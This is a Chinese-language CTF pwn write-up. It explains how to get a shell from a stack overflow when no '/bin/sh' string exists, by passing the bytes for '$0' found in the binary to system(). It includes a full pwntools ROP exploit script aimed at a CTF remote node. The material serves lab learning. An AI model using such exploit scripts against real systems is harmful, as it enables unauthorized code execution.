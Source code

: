 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `shell`的特殊姿势

![image-20240316122106483](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240316122106483.png)

看上去很简单的栈溢出,但是问题在于找不到能用的`/bin/sh`或者`sh`

这里出现了一个`shell`的新姿势:可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`

![image-20240316122245239](C:\Users\qianenzhao\AppData\Roaming\Typora\typora-user-images\image-20240316122245239.png)

在`tips`函数中正好有 `\x24\x30`可以用来构造,所以需要取出`0x400541`

关于`ida`打开机器码:`Option->general->Number of opcode改成5`

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

